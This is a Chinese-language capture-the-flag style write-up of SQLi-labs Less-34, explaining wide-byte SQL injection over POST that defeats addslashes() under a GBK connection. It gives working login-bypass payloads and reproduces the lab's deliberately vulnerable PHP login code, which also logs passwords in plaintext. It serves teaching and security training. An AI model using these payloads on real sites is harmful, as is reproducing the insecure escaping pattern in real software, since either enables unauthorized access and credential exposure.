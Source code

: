# Less-34 **Post Bypass Add SLASHES**
TAG：宽字节注入  
## 漏洞利用  
Less34中需要在post传参方式中使用宽字节注入，这和get方式有所不同  
页面会使用urlencode将get方式传递的参数处理，当使用```%df```时会把转义符```\```合并  
在post传参方式中，就需要使用另外的方法来进行宽字节注入了  
![less34_1](images\less34_1.png)    
  
方法1：使用utf-8的单引号```'```转换为utf-16的```�'```  
![less34_2](images\less34_2.png)    
构造万能密码  
Username:```�'or 1=1#```  
![less34_3](images\less34_3.png)    
  
方法2：使用burpsite进行宽字节注入    
Payload:```uname=%bb' or 1 #&passwd=1```  
![less34_4](images\less34_4.png)    
![less34_5](images\less34_5.png)    
  
可以使用limit实现平行越权  
Payload:uname=```%bb' or 1 limit 1,1 #&passwd=1```  
![less34_6](images\less34_6.png)    
![less34_7](images\less34_7.png)    
  
## 源码分析
### less34源代码  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>Less-34- Bypass Add SLASHES</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"> Welcome&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br></div>

<div  align="center" style="margin:40px 0px 0px 520px;border:20px; background-color:#0CF; text-align:center; width:400px; height:150px;">

<div style="padding-top:10px; font-size:15px;">
 

<!--Form to post the data for sql injections Error based SQL Injection-->
<form action="" name="form1" method="post">
	<div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
	    <input type="text"  name="uname" value=""/>
	</div>  
	<div> Password  : &nbsp;&nbsp;&nbsp;
		<input type="text" name="passwd" value=""/>
	</div></br>
	<div style=" margin-top:9px;margin-left:90px;">
		<input type="submit" name="submit" value="Submit" />
	</div>
</form>

</div>
</div>
<div style=" margin-top:10px;color:#FFF; font-size:23px; text-align:center">
<font size="3" color="#FFFF00">
<center>
<br>
<br>
<br>
<img src="../images/Less-34.jpg" />
</center>

<?php
//including the Mysql connect parameters.
include("../sql-connections/sqli-connect.php");


// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
{
	$uname1=$_POST['uname'];
	$passwd1=$_POST['passwd'];

        //echo "username before addslashes is :".$uname1 ."<br>";
        //echo "Input password before addslashes is : ".$passwd1. "<br>";
        
	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'User Name:'.$uname1);
	fwrite($fp,'Password:'.$passwd1."\n");
	fclose($fp);
        
        $uname = addslashes($uname1);
        $passwd= addslashes($passwd1);
        
        //echo "username after addslashes is :".$uname ."<br>";
        //echo "Input password after addslashes is : ".$passwd;    

	// connectivity 
	mysqli_query($con1, "SET NAMES gbk");
	@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysqli_query($con1, $sql);
	$row = mysqli_fetch_array($result, MYSQLI_BOTH);

	if($row)
	{
  		//echo '<font color= "#0000ff">';	
  		
  		echo "<br>";
		echo '<font color= "#FFFF00" font size = 4>';
		//echo " You Have successfully logged in\n\n " ;
		echo '<font size="3" color="#0000ff">';	
		echo "<br>";
		echo 'Your Login name:'. $row['username'];
		echo "<br>";
		echo 'Your Password:' .$row['password'];
		echo "<br>";
		echo "</font>";
		echo "<br>";
		echo "<br>";
		echo '<img src="../images/flag.jpg"  />';	
		
  		echo "</font>";
  	}
	else  
	{
		echo '<font color= "#0000ff" font size="3">';
		//echo "Try again looser";
		print_r(mysqli_error($con1));
		echo "</br>";
		echo "</br>";
		echo "</br>";
		echo '<img src="../images/slap.jpg" />';	
		echo "</font>";  
	}
}

?>

</br>
</br>
</br>
<font size='4' color= "#33FFFF">
<?php
 
echo "Hint: The Username you input is escaped as : ".$uname ."<br>";
echo "Hint: The Password you input is escaped as : ".$passwd ."<br>";
?>

</font>
</div>
</body>
</html>
```

### 漏洞点分析  
```
...
$uname1=$_POST['uname'];
	$passwd1=$_POST['passwd'];

        //echo "username before addslashes is :".$uname1 ."<br>";
        //echo "Input password before addslashes is : ".$passwd1. "<br>";
        
	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'User Name:'.$uname1);
	fwrite($fp,'Password:'.$passwd1."\n");
	fclose($fp);
        
        $uname = addslashes($uname1);
        $passwd= addslashes($passwd1);
        
        //echo "username after addslashes is :".$uname ."<br>";
        //echo "Input password after addslashes is : ".$passwd;    

	// connectivity 
	mysqli_query($con1, "SET NAMES gbk");
	@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysqli_query($con1, $sql);
	$row = mysqli_fetch_array($result, MYSQLI_BOTH);
...
```
此less中也是使用```addslashes()```函数进行过滤操作，突破方式与less33相似，只是需要根据传参类型post进行相应的改变  